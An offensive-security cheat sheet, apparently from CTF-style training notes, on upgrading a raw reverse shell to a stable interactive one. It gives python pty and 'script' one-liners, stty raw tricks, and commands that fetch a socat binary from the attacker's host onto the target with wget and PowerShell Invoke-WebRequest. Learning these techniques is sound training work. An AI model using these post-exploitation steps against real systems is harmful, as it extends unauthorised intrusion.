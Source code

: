 # Stabilize shell





- make sure we have TTY functionality by using the Python 3's `pty` module
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```





```
# step 1
python -c 'import pty;pty.spawn("/bin/bash")' # note that some targets may need the version of Python specified
# step 2
export TERM=xterm # this will give us access to term commands such as clear  
# step 3
stty raw -echo; fg # it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```



```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
# Then press Enter twice, and then enter:
export TERM=xterm
```






It's also useful to be able to change your terminal tty size. First check the current values with: `stty -a` and then change it with `stty rows NUMBER` and `stty cols NUMBER`.



Another way stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.


